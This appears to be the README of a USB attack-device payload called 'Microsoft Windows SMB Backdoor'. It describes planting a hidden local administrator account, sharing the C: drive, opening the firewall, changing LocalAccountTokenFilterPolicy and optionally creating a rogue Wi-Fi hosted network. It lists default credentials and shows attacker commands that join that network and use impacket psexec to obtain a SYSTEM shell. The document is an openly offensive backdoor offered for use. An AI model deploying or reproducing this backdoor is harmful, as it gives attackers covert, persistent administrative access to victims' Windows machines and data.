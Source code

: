 # "Microsoft Windows" SMB Backdoor

- Title:         "Microsoft Windows" SMB Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account.
2) Adds this local user to local administrator group.
3) If the target computer is equipped with a compatible Wi-Fi card :
    Avoids security measures on the internal network with the 
    creation of a wireless "Hosted Network".
4) Shares "C:\" directory.
5) Adds a rule to the firewall.
6) Sets a value to "LocalAccountTokenFilterPolicy" to access the "C:" with a local account.
7) Hides user account.

## Configuration

From "payload.txt" change the values of the following constants :
```bash

######## INITIALIZATION ########

readonly SMB_USERNAME="BB_User"
readonly SMB_PASSWORD="BB_P@ssW0rD"

##
# (any) Administrators
# (fr) Administrateurs
##
readonly GROUP_NAME="Administrators"

##
# Can be set to "true" if the target computer 
# is equipped with a compatible Wi-Fi card.
##
readonly WIRELESS_HOTSPOT="false"

readonly SMB_SHARE="BB_SHARE"

```

## Exploitation

>
> The name of the access point and the security key will be those defined by the values of the constants : **SMB_SHARE** and **SMB_PASSWORD**.
>

```
hacker@hacker-computer:~$ nmcli dev wifi connect "<SMB_SHARE>" password "<SMB_PASSWORD>"
```

>
> The connection identifiers will be those defined by the values of the constants : **SMB_USERNAME** and **SMB_PASSWORD**.
>

```
hacker@hacker-computer:~$ python3 /opt/impacket/examples/psexec.py ./<SMB_USERNAME>:<SMB_PASSWORD>@<TARGET>
C:\WINDOWS\system32> whoami
nt authority\system
```

>
> The share name and identifiers will be those defined by the values of the constants : **SMB_SHARE**, **SMB_USERNAME** and **SMB_PASSWORD**.
>

```
smb://<TARGET>/<SMB_SHARE>/
```